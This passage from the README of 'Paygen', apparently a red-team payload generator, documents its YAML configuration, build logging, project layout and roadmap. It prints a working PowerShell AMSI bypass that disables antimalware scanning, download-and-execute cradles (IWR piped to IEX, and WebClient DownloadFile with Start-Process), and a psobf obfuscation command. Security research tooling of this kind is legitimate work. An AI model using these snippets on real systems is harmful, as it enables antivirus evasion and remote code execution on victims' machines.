**Example AMSI Bypass:**
```yaml
- name: AmsiInitialize
  type: amsi
  no-obf: false
  code: |
    $a=[Ref].Assembly.GetTypes();
    Foreach($b in $a) {
        if ($b.Name -like "*iUtils") {
            $c=$b
        }
    };
    $d=$c.GetFields('NonPublic,Static');
    Foreach($e in $d) {
        if ($e.Name -like "*Context") {
            $f=$e
        }
    };
    $g=$f.GetValue($null);
    [IntPtr]$ptr=$g;
    [Int32[]]$buf = @(0);
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

**Example Cradle:**
```yaml
- name: IWR-IEX (Standard)
  type: cradle-ps1
  no-obf: false
  code: |
    IWR -Uri "{url}" -UseBasicParsing | IEX

- name: DownloadFile (EXE)
  type: cradle-exe
  no-obf: false
  code: |
    (New-Object System.Net.WebClient).DownloadFile("{url}", "$env:TEMP\{output_file}");
    Start-Process "$env:TEMP\{output_file}"
```

### Using YAML Configurations in Paygen

**In Web Interface:**

1. AMSI bypasses, obfuscation methods, and cradles are automatically loaded from YAML files
2. Dropdowns are dynamically generated based on available methods
3. The `no-obf` flag controls whether obfuscation options appear for each method
4. When generating a payload, select desired methods and provide lhost/lport for cradles

**Command Logging:**

During payload build, exact commands executed are logged in the build steps:

- AMSI bypass obfuscation: Shows `psobf` command used
- PowerShell obfuscation: Shows `psobf` command with all substituted variables
- Cradle generation: Shows constructed URL and obfuscation command if applied

**Example Build Output:**
```
Step: Inserting AMSI bypass (AmsiInitialize) with obfuscation (High - Maximum obfuscation)
AMSI bypass 'AmsiInitialize' inserted at beginning of script

Command: psobf -i /tmp/bypass_abc123.ps1 -o /tmp/bypass_obf_xyz789.ps1 -q -level 5 -pipeline "hex_aes:A1B2C3|string_dict:75|dead_code:50" -seed 4832
```

### Configuration File Location

Configuration files are referenced in `~/.config/paygen/config.yaml`:

```yaml
ps_obfuscation_yaml: /home/user/Documents/Tools/paygen/ps-obfuscation.yaml
ps_features_yaml: /home/user/Documents/Tools/paygen/ps-features.yaml
```

---

## Development

### Running Tests

```bash
pytest tests/ -v
```

### Project Structure

- `src/core/` - Core functionality (config, recipes, validation, building)
- `src/web/` - Web interface components
- `src/utils/` - Utility functions
- `tests/` - Test suite

### Tech Stack

- **Web**: Flask 3.0.0+, Flask-CORS
- **Frontend**: Vanilla JavaScript, Prism.js (syntax highlighting), Marked.js (markdown)
- **Templates**: Jinja2
- **Crypto**: PyCryptodome
- **Testing**: pytest
- **UI Theme**: Catppuccin Mocha (hardcoded in CSS)

---

## Roadmap

- [ ] Docker containerization
- [ ] Additional payload templates (Go, Rust, Python)
- [ ] C2 framework integration
- [ ] Automated obfuscation
- [ ] OPSEC scoring system

---

## License

MIT License - See [LICENSE](LICENSE) file for details.

Free and open source for security research and educational purposes.

---

## Acknowledgments

- [Catppuccin](https://github.com/catppuccin) - Beautiful color palette
- [Metasploit](https://www.metasploit.com/) - Shellcode generation
- [Flask](https://flask.palletsprojects.com/) - Web framework

---

**Remember**: With great power comes great responsibility. Use ethically. 🛡️

**Author**: Hailst0rm  
**Repository**: https://github.com/Hailst0rm1/paygen
